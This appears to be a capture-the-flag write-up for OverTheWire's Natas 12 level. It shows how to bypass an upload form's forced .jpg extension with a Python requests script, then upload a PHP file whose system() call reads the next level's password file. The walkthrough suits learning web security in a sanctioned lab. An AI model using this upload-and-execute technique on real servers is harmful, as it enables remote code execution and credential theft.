


# Writeup for [Natas 12 - Natas 13](http://natas12.natas.labs.overthewire.org) from [OverTheWire](https://overthewire.org)

We are given an upload form to upload JPEG files.

The expected file for the upload is a JPEG file, but what would happen if we try to upload a `.php` file?

Let's try to upload a simple php file that will just echo some text to the screen.

```bash
echo '<?php echo "Test"; ?>' > test.php
```

Let's try to upload `test.php` to the webapp.

Looks like it spits out an error.


It also seems that our filename is being changed to a random filename with a `.jpg` extension everytime we upload.

Looking at the source code we see there are 2 major code blocks that come in to play.


The first being the `makeRandomPathFromFilename` which creates a random filename with an extension that is provided with the filename. If we look closely to the bottom, the snippet `value="<? print genRandomString(); ?>.jpg" />` is forcing it so our filename will always end in `.jpg` but we can probably change that if we upload the file directly without going through that piece of code.

The second being that `if(array_key_exists("filename", $_POST)) { ` that will upload our file if we do a `POST` request on the page.

Now let's create a python script that will upload our file directly to the web server.

```python
#!/usr/bin/env python

import requests

url = 'http://natas12.natas.labs.overthewire.org'

user = 'natas12'

pw = 'EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3'

# Fill out the necessary Form data
data = {
	"filename" : "test.php",
	"MAX_FILE_SIZE" : "1000",
}

# File to upload
files = {
	"uploadedfile" : open('test.php','rb')
}

r = requests.post(url,auth = (user,pw), data = data, files = files )

print(r.text)
```

Looks like we are successful in uploading our file, it preserved the `.php` extension that will hopefully execute on the website.



It worked! Our php file which simply prints out the word "Test" has successfully been executed on the website.


Now all we need to do is just create code that will read the next user's password located in `/etc/natas_webpass/natas13`.

This payload will run the `system` function in PHP which will execute shell commands. We'll use this function to read natas13's password.

```bash
echo '<?php system("cat /etc/natas_webpass/natas13"); ?>' > test.php
```

Uploading the file once more with python.



We get the password for natas13.


